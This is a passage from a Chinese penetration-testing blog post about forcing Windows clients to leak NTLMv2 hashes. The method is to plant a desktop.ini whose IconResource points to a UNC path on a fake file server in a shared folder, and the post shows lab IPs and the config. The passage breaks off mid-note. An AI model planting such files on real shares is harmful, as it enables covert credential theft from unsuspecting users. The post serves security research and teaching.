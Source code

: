 《Windows下的密码hash——NTLM hash和Net-NTLM hash介绍》

《渗透技巧——利用netsh抓取连接文件服务器的NTLMv2 Hash》

经过实际测试，我们可以看到，利用的关键是要在文件服务器上添加scf文件，等待用户访问

那么，有没有更为隐蔽的方法呢？

## 0x04 修改文件夹图标强制用户访问伪造的文件服务器
---

参考scf文件的利用原理，需要找到可以指定IconFile属性的特殊文件

经过寻找，我找到了一个合适的方法： `修改文件夹图标强制用户访问伪造的文件服务器`

### 修改文件夹图标的方法：

选中`文件夹`-`右键`-`属性`-`自定义`-`更改图标`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-23/2-2.png)

更好后，在文件夹子目录生成文件desktop.ini，格式如下：

```
[.ShellClassInfo]
IconResource=C:\Windows\system32\SHELL32.dll,3
[ViewState]
Mode=
Vid=
FolderType=Generic
```

尝试将IconResource属性替换为UNC路径，路径为`IconResource=\\192.168.62.130\test\SHELL32.dll,3`

测试成功

### 实际测试：

正常文件服务器IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

客户端IP： 192.168.62.135

#### 1、正常文件服务器共享目录的test文件夹下添加文件desktop.ini，内容如下：

```
[.ShellClassInfo]
IconResource=\\192.168.62.130\test\SHELL32.dll,4
[ViewState]
Mode=
Vid=
FolderType=Generic

```

**注：**
